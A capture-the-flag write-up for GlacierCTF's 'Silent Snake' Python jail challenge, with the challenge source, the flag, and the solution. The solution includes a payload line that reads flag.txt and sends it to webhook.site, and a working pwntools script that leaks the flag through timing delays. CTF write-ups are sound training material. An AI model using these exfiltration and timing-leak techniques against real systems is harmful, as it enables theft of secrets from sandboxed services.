 # Silent Snake [63 Solves]

## Description

> Our favorite protagonist Sloppy Python, was able to sneak into the base of the baddies. Their internal system hosts containts a critical key that needs to be exfiltrated, but all their systems are locked down.
>
> Except for one: An ancient terminal with broken screen and enough ink for a single `ls`.
>
> Can you help Sloppy Python to steal the key?
>
> author: huksys
>
> `nc chall.glacierctf.com 13391`
>
> Attachments: silent_snake.tar.gz

<details><summary>Attachment file tree</summary>

```console
$ tar ztf silent_snake.tar.gz
chall/
chall/silent_snake.py
chall/repl.py
chall/flag.txt
docker-compose.yml
Dockerfile
```

</details>

<details><summary>chall/silent_snake.py</summary>

```python
#!/usr/bin/env python3

import os
import random
import subprocess
import time

DEBUG = os.environ.get("DEBUG", "0") == "1"


def drop_to_unprivileged(uid: int, gid: int):
    # Drop to a unprivileged user and group.
    assert uid != 0 and gid != 0
    os.setresgid(uid, uid, uid)
    os.setresuid(gid, gid, gid)


def drop_to_ctf_uid_gid():
    drop_to_unprivileged(4242, 4242)


(r, w) = os.pipe()
os.set_inheritable(w, True)

print(r)
print(w)

repl = subprocess.Popen(
    ["./repl.py", str(w)], close_fds=False, preexec_fn=drop_to_ctf_uid_gid
)

os.close(w)
ppipe = os.fdopen(r, "r", buffering=1)

allowed = {
    "ls": True,
}


try:
    while repl.poll() == None:
        cmd = ppipe.readline()
        if cmd == "":
            break

        cmd = cmd.strip().split(" ")
        if DEBUG:
            print("RECEIVED COMMAND:", cmd)

        if cmd[0] == "exit":
            break
        elif cmd[0] == "ls" and allowed["ls"] and len(cmd) == 2:
            valid = True
            resolved = []
            path = cmd[1]

            if not path.startswith("-") and os.path.isdir(path):
                cmd = ["ls", "-l", path]
                if DEBUG:
                    print(cmd)

                subprocess.run(
                    cmd,
                    stderr=(subprocess.STDOUT if DEBUG else subprocess.DEVNULL),
                    preexec_fn=drop_to_ctf_uid_gid,
                )

            allowed["ls"] = False
except Exception as ex:
    if DEBUG:
        import traceback

        traceback.print_exc()

if DEBUG:
    print("Terminating REPL process...")

repl.kill()
repl.wait()

if DEBUG:
    print("REPL terminated - waiting...")

time.sleep(random.randrange(300, 600))
```

</details>

<details><summary>chall/repl.py</summary>

```python
#!/usr/bin/env python3

import os
import sys
import code

DEBUG = os.environ.get("DEBUG", "0") == "1"

cpipe = os.fdopen(int(sys.argv[1]), "w", buffering=1)
devnull = open("/dev/null", mode="w")

print(
    """
Welcome to silent-snake, the blind REPL!

You've got a single ls that you can redeem using
`run_command('ls <directory_to_ls>')`

To exit the jail, use `exit()` or `run_command('exit')`

Have fun!
"""
)

if not DEBUG:
    sys.stdout.close()
    sys.stderr.close()
    os.close(1)
    os.close(2)
    sys.stdout = devnull
    sys.stderr = devnull

else:
    print(50 * "=")
    print(
        "WARNING: Debugging mode is *ON*. stdout and stderr are available here, but you won't be able to see the REPL's output during the challenge."
    )
    print(50 * "=")

    # Redirect stderr to stdout
    os.dup2(1, 2, inheritable=True)


def run_command(cmd: str):
    cpipe.write(cmd + "\n")


code.interact(local=locals())

run_command("exit")

print("debug")
```

</details>

## Flag

gctf{2nd_f100r_ba5ement?_p5ych0_mant15?_pr0cf5?}

## Solution

Python code can be executed, but I cannot see the stdout and stderr.

At first, I tried the following payload to send the flag to the Webhook URL.
Successed in the local environment, it failed on the challenge server's environment as the request was not sent.

```python
import http.client; c= http.client.HTTPSConnection('webhook.site'); c.request('POST', '/<yourwebhookpath>', open('/app/flag.txt', 'r').read())
```

Secondly, `import time; time.sleep(5); run_command('ls .')` was executed expectedly.
I will get the flag using a method similar to Time-Based SQL Injection.

```python
from pwn import remote, context
import time
import string

context.log_level = "ERROR"

HOST = "chall.glacierctf.com"
PORT = 13391

flag = "gctf{"

threshold = 3

possible = "}|_-!?" + string.digits + string.ascii_letters

for _ in range(len(flag), 50):
    for c in possible:
        io = remote(HOST, PORT)
        print(flag + c, end="\r", flush=True)

        io.recvuntil(b"Have fun!")

        io.sendline(
            f"import time; open('flag.txt', 'r').read().startswith('{flag+c}') and time.sleep({threshold}); run_command('ls .')".encode(),
        )

        t1 = time.time()

        io.recvuntil(b"silent_snake.py")

        t2 = time.time()

        io.close()
        time.sleep(2)

        if t2 - t1 > threshold:
            flag += c
            print(flag)
            break

print(flag)
```

```console
$ python3 solver.py
gctf{2
gctf{2n
gctf{2nd
gctf{2nd_
gctf{2nd_f
gctf{2nd_f1
gctf{2nd_f10
gctf{2nd_f100
gctf{2nd_f100r
gctf{2nd_f100r_
gctf{2nd_f100r_b
gctf{2nd_f100r_ba
gctf{2nd_f100r_ba5
gctf{2nd_f100r_ba5e
gctf{2nd_f100r_ba5em
gctf{2nd_f100r_ba5eme
gctf{2nd_f100r_ba5emen
gctf{2nd_f100r_ba5ement
gctf{2nd_f100r_ba5ement?
gctf{2nd_f100r_ba5ement?_
gctf{2nd_f100r_ba5ement?_p
gctf{2nd_f100r_ba5ement?_p5
gctf{2nd_f100r_ba5ement?_p5y
gctf{2nd_f100r_ba5ement?_p5yc
gctf{2nd_f100r_ba5ement?_p5ych
gctf{2nd_f100r_ba5ement?_p5ych0
gctf{2nd_f100r_ba5ement?_p5ych0_
gctf{2nd_f100r_ba5ement?_p5ych0_m
gctf{2nd_f100r_ba5ement?_p5ych0_ma
gctf{2nd_f100r_ba5ement?_p5ych0_man
gctf{2nd_f100r_ba5ement?_p5ych0_mant
gctf{2nd_f100r_ba5ement?_p5ych0_mant1
gctf{2nd_f100r_ba5ement?_p5ych0_mant15
gctf{2nd_f100r_ba5ement?_p5ych0_mant15?
gctf{2nd_f100r_ba5ement?_p5ych0_mant15?_
gctf{2nd_f100r_ba5ement?_p5ych0_mant15?_p
gctf{2nd_f100r_ba5ement?_p5ych0_mant15?_pr
gctf{2nd_f100r_ba5ement?_p5ych0_mant15?_pr0
gctf{2nd_f100r_ba5ement?_p5ych0_mant15?_pr0c
gctf{2nd_f100r_ba5ement?_p5ych0_mant15?_pr0cf
gctf{2nd_f100r_ba5ement?_p5ych0_mant15?_pr0cf5
gctf{2nd_f100r_ba5ement?_p5ych0_mant15?_pr0cf5?
gctf{2nd_f100r_ba5ement?_p5ych0_mant15?_pr0cf5?}
gctf{2nd_f100r_ba5ement?_p5ych0_mant15?_pr0cf5?}
```
